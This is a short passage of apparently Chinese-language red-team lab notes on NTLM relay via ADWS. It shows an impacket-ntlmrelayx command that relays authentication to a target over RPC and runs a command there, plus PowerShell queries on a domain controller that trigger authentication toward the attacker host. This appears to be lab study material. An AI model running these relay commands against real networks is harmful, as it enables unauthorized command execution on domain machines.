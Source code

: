 ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/24.png)

**ADWS**

kali 上启用(192.168.141.129)
```
impacket-ntlmrelayx --no-smb-server --no-http-server -t rpc://192.168.141.132 -c "echo a > c:\test"
```

域控上执行
```
Get-Command
get-aduser -filter * -server 192.168.141.129
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/25.png)
